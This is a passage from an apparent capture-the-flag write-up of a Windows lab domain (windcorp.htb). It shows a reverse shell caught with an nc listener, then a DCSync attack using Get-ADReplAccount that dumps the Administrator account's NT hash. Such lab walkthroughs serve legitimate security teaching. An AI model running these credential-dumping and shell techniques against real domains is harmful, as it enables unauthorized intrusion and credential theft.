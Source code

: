 I’ll upload it, sign it, and trigger it. And about 15 seconds later, I get a shell:

```

oxdf@hacky$ rlwrap -cAr nc -lnvp 9004
Listening on 0.0.0.0 9004
Connection received on 10.10.11.147 62144
Microsoft Windows [Version 10.0.20348.643]
(c) Microsoft Corporation. All rights reserved.

C:\Get-bADpasswords>whoami
windcorp\bpassrunner

```

## Shell as Administrator

### Strategy

The `Get-bADpasswords` [GitHub README](https://github.com/improsec/Get-bADpasswords) says that running it:

> Requires ‘Domain Admin’ privileges or similar, e.g. ‘Domain Controller’ or delegated Domain-level permissions for both “Replicating Directory Changes” and “Replicating Directory Changes All”, to successfully fetch passwords from the Active Directory database.

That means this user should be able to run a DCSync attack.

### DCSync

#### From Shell

This is actually quite easy to do from a shell as the user with privileges using `Get-ADReplAccount`:

```

PS C:\Get-bADpasswords> Get-ADReplAccount -SamAccountName administrator -Server 'hathor.windcorp.htb'
                                                    
DistinguishedName: CN=Administrator,CN=Users,DC=windcorp,DC=htb
Sid: S-1-5-21-3783586571-2109290616-3725730865-500
Guid: 526eb447-7a40-4fe9-b95a-f68e9d78efa1     
SamAccountName: Administrator                  
SamAccountType: User                           
UserPrincipalName:                             
PrimaryGroupId: 513                            
SidHistory:                                    
Enabled: True                                  
UserAccountControl: NormalAccount, PasswordNeverExpires
AdminCount: True
Deleted: False                                 
LastLogonDate: 11/5/2022 12:41:33 PM           
DisplayName:                                   
GivenName:                                     
Surname:                                       
Description: Built-in account for administering the computer/domain
ServicePrincipalName:                          
SecurityDescriptor: DiscretionaryAclPresent, SystemAclPresent, DiscretionaryAclAutoInherited, 
SystemAclAutoInherited, DiscretionaryAclProtected, SelfRelative
Owner: S-1-5-21-3783586571-2109290616-3725730865-512                           
Secrets                                        
  NTHash: b3ff8d7532eef396a5347ed33933030f
  LMHash:                                      
  NTHashHistory:          
    Hash 01: b3ff8d7532eef396a5347ed33933030f
```